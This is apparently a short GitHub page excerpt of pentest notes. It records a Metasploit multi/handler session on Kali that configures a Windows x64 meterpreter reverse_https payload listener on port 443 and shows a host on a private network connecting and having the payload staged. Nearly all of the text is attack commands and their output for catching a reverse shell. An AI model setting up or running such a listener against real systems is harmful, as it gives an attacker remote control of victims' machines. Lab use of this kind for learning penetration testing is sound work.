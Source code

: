 - start metasploit on kali
- metasploit commands
```shell
usemsf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https 
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > set lhost eth0
lhost => 192.168.1.110
msf6 exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.110    yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.1.110:443
[!] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.1.110:443 handling request from 192.168.1.135; (UUID: pxlau20q) Staging x64 payload (202844 bytes) ...
```